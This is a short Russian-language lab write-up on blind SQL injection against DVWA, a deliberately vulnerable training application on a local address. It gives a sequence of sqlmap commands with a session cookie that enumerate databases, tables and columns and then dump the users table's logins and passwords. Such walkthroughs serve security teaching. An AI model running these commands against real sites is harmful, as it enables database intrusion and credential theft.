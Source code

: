 # Слепая SQL-инъекция

1. Авторизируемся и заходим на страницу `vulnerabilities/sqli_blind`

![pic1](images/img1.png)

2. Берём куки из браузера

![pic2](images/img2.png)

3. Используем sqlmap для проведения инъекции:
Используем флаг `—dbs` для определения баз данных
```sh
sqlmap -u "http://192.168.1.69/vulnerabilities/sqli_blind/?id=2&Submit=Submit "
 --cookie "PHPSESSID=dfqu0bkebsnidql9t8h0pdi576; security=low"  —dbs
```
![pic3](images/img3.png)

Получаем информацию о 2 бд, нас интересует **dvwa**
4. Используем флаг `—tables` для определения таблиц в БД dvwa

```sh
sqlmap -u "http://192.168.1.69/vulnerabilities/sqli_blind/?id=2&Submit=Submit "
 --cookie "PHPSESSID=dfqu0bkebsnidql9t8h0pdi576; security=low"  –D dvwa —tables
```
![pic4](images/img4.png)
Нас интересует таблица **users**
5. Используем флаг `—column` для определения столцов в таблице users
```sh
sqlmap -u "http://192.168.1.69/vulnerabilities/sqli_blind/?id=2&Submit=Submit "
 --cookie "PHPSESSID=dfqu0bkebsnidql9t8h0pdi576; security=low"  –D dvwa –T users —column
```
![pic5](images/img5.png)
Видим, что в таблице есть такие столбцы как user и password
6. Используем флаг `-dump` для получения всех значений в этих столбцах
```sh
sqlmap -u "http://192.168.1.69/vulnerabilities/sqli_blind/?id=2&Submit=Submit "
 --cookie "PHPSESSID=dfqu0bkebsnidql9t8h0pdi576; security=low"  –D dvwa –T users –C user,password —dump
```
![pic6](images/img6.png)

Итак, мы получили все логины и пароли!